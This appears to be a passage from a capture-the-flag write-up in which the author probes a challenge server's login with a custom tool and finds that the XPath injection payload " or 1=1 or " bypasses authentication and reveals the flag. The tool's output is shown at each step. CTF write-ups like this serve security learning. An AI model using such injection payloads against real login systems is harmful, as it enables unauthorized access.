 Let's try with something more... **agressive**.

```
Nightlysploit $> "'��u("'�f"�ht"
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered : 
```
Something happened ! Maybe it's my quotes...

After trying a single quote, it's seems that double-quote is making the server behave strangely.

**SQL Injection** ? Let's try.

```
Nightlysploit $> " OR 1=1 OR "      
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered : 
```

Nope, it makes the application behave strangely too...

It looks like SQL but it's not SQL.

Maybe it's *XPath* ?

Let's retry my SQL Injection with lowercase characters.

```
Nightlysploit $> " or 1=1 or "
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered : The flag is : D34RG0DILUVC00KIEZ
```

Boom.
